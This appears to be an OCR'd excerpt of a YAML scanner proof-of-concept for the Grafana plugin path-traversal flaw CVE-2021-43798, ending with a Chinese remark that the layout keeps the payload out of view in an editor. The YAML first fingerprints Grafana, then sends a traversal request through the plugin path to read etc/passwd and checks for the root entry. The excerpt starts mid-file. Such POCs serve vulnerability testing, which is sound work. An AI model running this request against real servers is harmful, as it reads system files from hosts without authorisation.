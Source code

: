 ```yaml
            re: |
                "root:.*?:[0-9]*:[0-9]*:"
        cloudwatchl:
            file: |
                "etc/passwd"
            plugin: |
                "cloudwatch"
            re: |
                "root:.*?:[0-9]*:[0-9]*:"
rules:
    detect:
        request:
            cache: false
            method: GET
            path: /
            follow_redirects: true
        expression: |
            response.status == 200 && "window.grafana[b|B]oot[d|D]ata\\s*=\\s*{".bmatches(response.body) || response.body.bcontains(b"Sometimes restarting grafana-server can help")
    r0:
        request:
            method: GET
            path: /public/plugins/{{plugin}}/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f{{file}}
        expression: |
            response.status == 200 && re.bmatches(response.body)
expression: detect() && r0()
detail:
    author: test
    links:
        - https://github.com/vulhub/vulhub/blob/master/grafana/CVE-2021-43798/README.zh-cn.md
```
通过这种方式，当我们在类似sublime等的编辑器中查看的时候，就可以直接将payload隐藏起来，直接看该POC的逻辑即可。
